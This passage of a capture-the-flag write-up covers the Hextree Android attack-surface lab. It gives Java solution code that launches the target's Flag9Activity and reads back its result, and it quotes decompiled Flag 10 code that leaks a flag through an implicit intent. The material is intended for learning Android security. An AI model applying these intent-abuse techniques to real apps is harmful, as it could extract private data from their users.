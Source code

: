 The only difference between this and `Flag 8` is the activity name and we will implement the `onActivityResult()` 

#### Solution
```java
public class Hextree extends AppCompatActivity {  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        EdgeToEdge.enable(this);  
        setContentView(R.layout.activity_hextree);  
  
        Intent intent = new Intent();  
        intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag9Activity"));  
        startActivityForResult(intent,42);  
        
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {  
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());  
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);  
            return insets;  
        });  
    }  
  
    @Override  
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {  
        super.onActivityResult(requestCode, resultCode, data);  
        if (requestCode == 42) {  
            Utils.showDialog(this, data);  
        }  
    }  
}
```

### Flag 10
#### Code analysis
```java
if (getIntent().getAction() == null) {
            Toast.makeText(this, "Sending implicit intent with the flag\nio.hextree.attacksurface.ATTACK_ME", 1).show();
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            this.f.addTag(intent);
            intent.putExtra("flag", this.f.appendLog(this.flag));
            try {
                startActivity(intent);
                success(this);
            } catch (RuntimeException e) {
                e.printStackTrace();
                Toast.makeText(this, "No app found to handle the intent\nio.hextree.attacksurface.ATTACK_ME", 1).show();
                finish();
            }
        }
```
